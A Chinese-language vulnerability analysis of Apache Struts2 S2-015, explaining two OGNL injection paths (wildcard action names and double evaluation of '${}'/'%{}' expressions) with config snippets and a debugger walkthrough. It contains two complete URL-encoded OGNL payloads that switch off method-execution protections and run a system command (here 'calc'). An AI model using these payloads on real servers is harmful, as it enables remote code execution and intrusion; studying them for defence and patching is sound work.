



# S2-015 Demo

## Summary

Impact of vulnerability: Remote command execution, remote server context manipulation, injection of malicious client side code

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.2`

Problem: 

1. Action的名称没有转义和检查是否符合白名单。一个场景是当action name配置为通配符，攻击者可以通过访问`<ognl_expression>.action`来传入`ognl`表达式，并在加载`jsp`文件时触发执行。

   ```java
   <action name="*" class="example.ExampleSupport">
       <result>/example/{1}.jsp</result>
   </action>
   ```

   

   Payload1: 

   ```
   /s2_015_war_exploded/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action
   ```

   

2. 当`$`和`%`字符组合使用时，`ognl`表达式会被`TextParseUtil.translateVariables`二次执行。

   ```java
   <action name="Helloworld" class="org.test.HelloworldAction">
   	<result name="success" type="httpheader">
   		<param name="headers.foobar">${message}</param>
   	</result>
   </action>
   ```

   

   Payload2: 

   ```
   /s2_015_war_exploded/Helloworld.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d
   ```

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## Debug

第二个问题有点类似于`s2-012`，这里不分析了，只看下第一个。

在`s2-015/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:199`下个断点，这块是已经通过前面的interceptor，准备执行action的execute方法。

发送`payload1`触发断点。


跟入`executeResult()`，创建了一个`ServletDispatcherResult`对象，即默认的result类型为dispatcher（转发）。



跟进`execute()`，两行代码分别是解析要转发的地址以及执行转发操作：

```
public void execute(ActionInvocation invocation) throws Exception {
	this.lastFinalLocation = this.conditionalParse(this.location, invocation); //解析要转发的地址，ongl解析就发生在这里
	this.doExecute(this.lastFinalLocation, invocation); //执行转发操作
}
```

继续跟进`conditionalParse()` -> `translateVariables()` -> `translateVariables()` -> `translateVariables()`，该函数首先扫描`location`中是否存在`${`}和`%{}`的字符串，如果有就将其中的表达式截取出来，并通过`stack.findValue()`查找，最终触发`ognl`表达式：



## Reference

- [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)
- [S2-015 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md)

